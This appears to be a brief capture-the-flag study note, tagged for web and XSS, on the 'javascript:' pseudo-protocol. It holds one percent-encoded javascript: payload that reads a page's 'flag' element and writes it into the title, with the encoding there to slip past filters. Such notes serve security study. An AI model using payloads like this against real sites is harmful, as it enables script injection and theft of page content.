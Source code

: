 tags:: [[CTFWEB/HTML&HTTP]], [[CTFWEB/XSS]]

-
- `javascript:`伪协议
- ```
  jav%61script:(() => document.getElementsByTagName('title')[0].innerHTML = document.getElementsByClassName('flag')[0].innerHTML)()
  ```
-